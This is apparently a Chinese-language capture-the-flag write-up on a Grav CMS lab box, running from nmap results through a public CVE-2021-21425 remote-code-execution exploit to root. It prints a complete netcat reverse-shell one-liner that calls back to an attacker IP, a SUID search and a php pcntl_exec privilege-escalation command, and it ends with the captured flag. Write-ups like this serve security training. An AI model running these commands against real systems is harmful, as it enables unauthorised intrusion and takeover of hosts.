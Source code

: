 nmap 的結果
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

網頁打開進去後是一個 grav 的 CMS 網站 都沒有可以利用的地方 上網有找到可以 RCE 的 [exploit](https://github.com/CsEnox/CVE-2021-21425/tree/main) (這裡怪怪的 沒有版本號或什麼提示)

透過 bind shell 建立連線 `python3 exploit.py -c 'rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.45.201 80 > /tmp/f' -t http://192.168.186.12/grav-admin` (用 reverseshell generate 時一直失敗 之後才發現因為 reverseshell generate 的 nc 有加 -i 這樣變成是等人來連 所以要把 -i 拿掉 讓他自己去連)

連上後無法 `sudo -l` 使用 `find / -perm -4000 2>/dev/null` 有看到 `/usr/bin/php7.4` 應該有 SUID 可以使用 在 [GTFOBins](https://gtfobins.github.io/gtfobins/php/?source=post_page-----627bc41a86ef--------------------------------) 找到 可以利用 `./php -r "pcntl_exec('/bin/sh', ['-p']);"` 提權
於是輸入 `/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"` 成功提權
![image](https://hackmd.io/_uploads/B1Z2QGZryg.png)

拿到 flag `66cc737cd3c7b3a913d9b927a19336af`
![image](https://hackmd.io/_uploads/Hkr6mfWrkg.png)
